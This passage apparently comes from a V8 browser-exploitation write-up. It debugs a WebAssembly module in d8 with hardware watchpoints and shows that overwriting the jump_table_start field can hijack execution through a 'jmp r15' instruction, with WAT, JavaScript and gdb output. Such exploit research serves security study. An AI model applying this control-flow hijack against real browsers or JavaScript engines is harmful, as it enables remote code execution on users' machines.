 We could see that executing `wmain();` triggers the watchpoint and we end up with
the code that uses this `jump_table_start` field. Further down we could see
`jmp r15` instruction which reveals that if we overwrite the value of
`jump_table_start`, we could hijack the code execution flow. This is looking
good for us. However, if we try to execute `wmain();` again, this part of
code is not executed anymore. To trigger this again, we need to execute another
function.

```wasm
(module
  (func (export "main") (result f64)
    f64.const 13.37
    f64.const 133.37
    f64.const 1333.37
    drop
    drop
  )
  (func (export "pwn"))
)
```

We update our `wasm.js` with the latest bytecode and re-run it again through debugger.
We then setup the read watchpoint and execute these code

```js
var wmain = instance.exports.main;
wmain();
var pwn = instance.exports.pwn;
pwn();
```

Notice that it breaks when calling `wmain()` and `pwn()`.

```console
V8 version 12.2.0 (candidate)
d8> var wmain = instance.exports.main;
undefined
d8> wmain();

Thread 1 "d8" hit Hardware read watchpoint 1: *0x3c49000da114
gef> info reg r15
r15            0x98c16bfb000       0x98c16bfb000
gef> c

d8> var pwn = instance.exports.pwn;
undefined
d8> pwn();

Thread 1 "d8" hit Hardware read watchpoint 1: *0x3c49000da114
gef> info reg r15
r15            0x98c16bfb005       0x98c16bfb005
```

Also notice that now `r15` is `0x5` more than `jump_table_start`.
